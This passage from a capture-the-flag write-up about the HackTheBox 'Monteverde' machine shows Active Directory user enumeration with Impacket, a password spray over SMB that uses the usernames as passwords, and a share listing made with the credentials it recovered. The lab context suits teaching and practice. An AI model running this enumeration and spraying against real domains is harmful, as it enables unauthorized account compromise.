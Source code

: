 ```bash
```

So We got same usernames from RPC and LDAP.

We can also use `GetADUsers.py` to get the list of users.

```bash
root@w0lf:~/CTF/HTB/Boxes/Monteverde# GetADUsers.py -all MEGABANK.LOCAL/ -dc-ip '10.10.10.172'
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Querying 10.10.10.172 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Guest                                                 <never>              <never>             
AAD_987d7f2f57d2                                      2020-01-03 04:23:24.984897  2020-05-29 07:47:15.269032 
mhope                                                 2020-01-03 05:10:05.908924  2020-01-03 18:59:59.037500 
SABatchJobs                                           2020-01-03 18:18:46.392235  2020-01-06 15:57:18.925036 
svc-ata                                               2020-01-03 18:28:31.332169  <never>             
svc-bexec                                             2020-01-03 18:29:55.863422  <never>             
svc-netapp                                            2020-01-03 18:31:42.786264  <never>             
dgalanos                                              2020-01-03 18:36:10.519660  <never>             
roleary                                               2020-01-03 18:38:05.832167  <never>             
smorgan                                               2020-01-03 18:39:21.629084  <never>
```

So its pretty same we got.

## Password Spraying

Since there is no other way left, I decided to Password spray on `smb`. Using `rockyou.txt` will takes time to brute force all the users so I use the same user's list as passwords wordlist.

I used a module from metasploit to do it.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-monteverde/Untitled%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-monteverde/Untitled%201.png)

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-monteverde/Untitled%202.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-monteverde/Untitled%202.png)

Here we got a valid password.

## SMB Login with SABatchJobs

Logged in with `SABatchJobs : SABatchJobs`

```bash
root@w0lf:~# smbclient -L 10.10.10.172 -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	azure_uploads   Disk      
	C$              Disk      Default share
	E$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	users$          Disk      
```